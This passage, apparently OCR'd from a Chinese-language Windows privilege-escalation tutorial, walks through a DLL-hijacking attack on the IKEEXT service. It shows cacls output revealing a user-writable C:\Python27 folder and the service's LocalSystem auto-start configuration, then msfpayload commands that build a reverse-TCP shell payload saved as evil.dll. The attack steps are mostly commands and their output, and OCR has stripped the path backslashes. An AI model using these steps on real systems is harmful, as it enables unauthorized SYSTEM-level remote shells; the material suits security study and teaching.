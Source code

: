 ```
         DELETE
         SYNCHRONIZE
         READ_CONTROL
 C:Usersuser1Desktop&gt; cacls "C:Python27"
 C:Python27 BUILTINAdministrators:(ID)F
             BUILTINAdministrators:(OI)(CI)(IO)(ID)F
             NT AUTHORITYSYSTEM:(ID)F
             NT AUTHORITYSYSTEM:(OI)(CI)(IO)(ID)F
             BUILTINUsers:(OI)(CI)(ID)R
             NT AUTHORITYAuthenticated Users:(ID)C
             NT AUTHORITYAuthenticated Users:(OI)(CI)(IO)(ID)C
```

```
在我们继续往下搞之前，我们需要检查一下IKEEXT服务的状态。在下面的例子中可以看出，它被设置成“AUTO_START”，所以它在系统启动后就自动运行了。
 C:Usersuser1Desktop&gt; sc qc IKEEXT
 [SC] QueryServiceConfig SUCCESS
 SERVICE_NAME: IKEEXT
         TYPE               : 20  WIN32_SHARE_PROCESS
         START_TYPE         : 2   AUTO_START
         ERROR_CONTROL      : 1   NORMAL
         BINARY_PATH_NAME   : C:Windowssystem32svchost.exe -k netsvcs
         LOAD_ORDER_GROUP   :
         TAG                : 0
         DISPLAY_NAME       : IKE and AuthIP IPsec Keying Modules
         DEPENDENCIES       : BFE
         SERVICE_START_NAME : LocalSystem
```

现在我们已经具备了攻击它的必需条件，我们可以生成一个恶意的DLL文件并且获得一个shell了。

```
root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O
        Name: Windows Command Shell, Reverse TCP Inline
      Module: payload/windows/shell_reverse_tcp
    Platform: Windows
        Arch: x86
 Needs Admin: No
  Total size: 314
        Rank: Normal
 Provided by:
   vlad902 &lt;vlad902@gmail.com&gt;
   sf &lt;stephen_fewer@harmonysecurity.com&gt;
 Basic options:
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  process          yes       Exit technique: seh, thread, process, none
 LHOST     127.0.0.1        yes       The listen address
 LPORT     9988             yes       The listen port
 Description:
   Connect back to attacker and spawn a command shell
 root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D &gt; 
 /root/Desktop/evil.dll
 Created by msfpayload (http://www.metasploit.com).
 Payload: windows/shell_reverse_tcp
  Length: 314
 Options: `{`"lhost"=&gt;"127.0.0.1", "lport"=&gt;"9988"`}`
```
